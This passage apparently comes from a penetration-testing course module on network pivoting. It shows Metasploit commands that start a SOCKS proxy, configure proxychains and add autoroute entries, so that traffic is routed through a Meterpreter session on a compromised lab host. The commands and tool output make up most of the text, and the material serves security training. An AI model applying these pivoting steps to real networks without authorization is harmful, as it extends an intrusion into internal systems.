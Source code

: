  **!!** It is good to attempt our ping sweep at least twice to ensure the arp cache gets built.

There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies. In these cases, we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host. We will configure the SOCKS proxy for `SOCKS version 4a`. This SOCKS configuration will start a listener on port `9050` and route all the traffic received via our Meterpreter session.

#### Configuring MSF's SOCKS Proxy
```shell
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```

```shell
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.
#### Adding a Line to proxychains.conf if Needed
```shell-session
socks4 	127.0.0.1 9050
```
Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
